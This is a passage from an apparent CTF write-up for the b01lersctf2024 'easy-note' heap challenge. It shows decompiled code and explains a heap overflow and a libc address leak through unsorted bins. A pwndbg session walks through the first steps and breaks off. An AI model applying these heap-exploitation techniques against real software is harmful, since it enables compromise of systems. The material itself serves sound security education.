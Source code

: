 ```c
    eax = fcn_0000130a ();
    *(var_ch) = eax;
    eax = *(var_ch);
    rdx = (int64_t) eax;
    eax = *(var_10h);
    rax = (int64_t) eax;
    rcx = rax*8;
    rax = 0x00004040;
    rax = *((rcx + rax));
    read (0, *((rcx + rax)), rdx);
    return rax;
}
```

Basically, we can read into as much data as we want into a chunk of our choice. We could use this to perform a `Heap Overflow` and hijack meta-data of other neighbouring chunks. Overall, there's just too many lucrative vulnerabilities floating around in this program and we could easily put these to our use to get a shell! 

### Leak Libc Addresses through Unsorted Bins
Since, Unsorted Bins are doubly-linked, circular lists and since we can read chunks despite them being freed. This implies, we could just free a chunk and force it into an Unsorted Bin and then just read the first quadword of the user data of that chunk, which would be a pointer to the Unsorted Bin Head inside the main arena. Since, the main arena is loaded at a constant offset from the Libc base address. This leaks the Libc base address and permits us to put any of the other symbols inside the Libc to use. Here's how to do this 

```bash
pwndbg> r
Starting program: ~/ctfs/b01lersctf2024/easy-note/chal_patched
-----Options---
-----Alloc-----
-----Free------
-----View------
-----Edit------
-----Exit------
-----Resize----
1
Where? 0
size? 1048
-----Options---
-----Alloc-----
-----Free------
-----View------
-----Edit------
-----Exit------
-----Resize----
1
Where? 1
size? 32
-----Options---
-----Alloc-----
-----Free------
-----View------
-----Edit------
-----Exit------
-----Resize----
2
Where? 0
-----Options---
-----Alloc-----
-----Free------
-----View------
-----Edit------
```